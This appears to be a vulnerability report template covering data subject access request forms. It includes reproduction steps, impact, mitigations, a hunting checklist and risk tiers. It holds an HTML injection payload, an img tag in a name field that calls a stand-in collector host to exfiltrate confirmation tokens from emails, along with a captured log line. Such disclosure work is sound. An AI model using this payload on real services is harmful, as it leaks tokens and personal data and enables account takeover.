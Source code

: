 
**Technical details / Reproduction:**  

1. Register account `test+dsar@yourdomain.com` on target.  

2. Submit DSAR using `First name` = `<img src="https://collector.example/?q=__DSAR_LINK__">`.  

3. Received confirmation email contains the injected image tag. When the email client loads remote resources, `collector.example` logs a GET request with query containing the confirmation URL and token (logs attached).  

4. Captured request: `GET /?q=https://app.example/s/confirm?token=ABC123&uid=... HTTP/1.1` (raw log snippet).  

(Attach screenshot of email and raw collector log.)

  

**Impact:** Exfiltration of tokens & PII → targeted phishing and potential account takeover. Large blast radius if templates are shared.

  

**Mitigation:** Encode/sanitize user inputs, strip remote resource tags from sensitive emails, proxy images through vendor domain, rotate and short-expire tokens, enforce stricter verification.

  

---

  

## Detection & Hunting Playbook (quick checklist)

- Fuzzer-enabled enumeration of DSAR endpoints.  

- Check all fields that reflect into emails or attachments.  

- Monitor for OOB via Collaborator when testing injections.  

- Try IDOR checks on any `/download` or `/export` path.  

- Search instance for tenant/template endpoints to determine scope.  

- Inspect response headers and email metadata for tokens or IDs.

  

---

  

## Risk Scoring Guidance

- **Critical (9.0–10.0)**: Unauthenticated DSAR or IDOR allowing direct download of other users' PII; tokens in email enabling immediate account takeover.  

- **High (7.0–8.9)**: Exfiltration of tokens or identifiers that can be chained to takeover; mass-leak potential.  

- **Medium (4.0–6.9)**: Leakage of partial PII or metadata that aids reconnaissance.  

- **Low (<4.0)**: Cosmetic or non-sensitive information leakage.
